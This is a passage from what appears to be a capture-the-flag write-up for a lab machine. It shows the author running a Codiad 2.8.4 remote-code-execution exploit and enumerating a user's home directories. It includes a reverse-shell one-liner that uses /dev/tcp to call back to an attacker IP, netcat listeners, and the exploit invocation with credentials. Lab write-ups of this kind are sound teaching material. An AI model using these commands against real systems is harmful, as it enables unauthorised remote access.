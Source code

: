   ```py
  if __name__ == "__main__":
      main()
  ```

* Running this exploit using ```python3``` does not work, but it works with ```python2```:

  ```sh
  echo 'bash -c "bash -i >/dev/tcp/10.14.78.65/4445 0>&1 2>&1"' | nc -lnvp 4444

  nc -nvlp 4445
  # setup both listeners

  python2 codiad-2.8.4-rce.py http://inferno.thm/inferno admin dante1 10.14.78.65 4444 linux
  # run the exploit
  ```

* Now, the exploit works successfully and we get the reverse-shell; however periodically the 'exit' command is run on its own and we lose shell access, due to which we need to setup the listeners and run the exploit again and again (as a temporary workaround, I kept running ```/bin/bash``` command every minute so that we do not lose reverse shell after getting kicked)

* In our reverse shell, we can continue basic enumeration:

  ```sh
  ls -la
  # web directory does not include anything interesting

  ls -la /home
  # we have one user - dante

  ls -la /home/dante
  # enumerate all files and folders

  ls -la /home/dante/Desktop
  # we have .txt files here
  # but they are large in size

  file /home/dante/Desktop/*
  # ELF 64-bit LSB shared object
  # these are not text files, but binaries

  # continue enumeration

  ls -la /home/dante/Documents
  # we have .doc files here
  
  # to confirm these are legit
  file /home/dante/Documents
  # turns out these are binaries as well

  ls -la /home/dante/Downloads
  # we have several .docx files and one hidden .dat file

  file /home/dante/Downloads/*
  # all of the .docx files are binaries as well
  # this command did not include the hidden file

  file /home/dante/Downloads/.download.dat
  # ASCII text, with very long lines, with no line terminators
  
  # check the file
  cat /home/dante/Downloads/.download.dat
  # prints some code, we can check this later

  ls -la /home/dante/Pictures
  # we have .jpg files, but 0 bytes in size
  ```